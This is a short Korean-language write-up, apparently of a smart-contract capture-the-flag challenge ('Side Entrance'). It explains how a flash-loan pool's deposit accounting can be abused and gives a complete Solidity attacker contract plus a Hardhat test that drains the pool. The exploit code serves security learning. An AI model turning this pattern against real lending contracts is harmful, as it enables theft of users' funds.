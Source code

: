 deposit은 mapping의 balance로 업데이트하고 있어 flashloan이 확인 못함.

그 다음은 그냥 가져가면 됨.

withdraw로 pool의 balance를 가져가고 transfer로 공격자에게 전송.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISideEntranceLenderPool {
    function deposit() external payable;

    function withdraw() external;

    function flashLoan(uint256 amount) external;
}

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    ISideEntranceLenderPool immutable pool;
    uint immutable etherInPool;
    address payable immutable attacker = payable(msg.sender);

    constructor(address _pool, uint _etherInPool) {
        pool = ISideEntranceLenderPool(_pool);
        etherInPool = _etherInPool;
    }

    function pwn() external {
        pool.flashLoan(etherInPool);
        pool.withdraw();
        attacker.transfer(address(this).balance);
    }

    function execute() external payable override {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```

```solidity
it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const ExploitFactory = await ethers.getContractFactory(
      "SideEntranceAttacker",
      attacker
    );
    // Run Exploit constructor.
    const exploit = await ExploitFactory.deploy(
      this.pool.address,
      ETHER_IN_POOL
    );
    await exploit.pwn();
  });
```

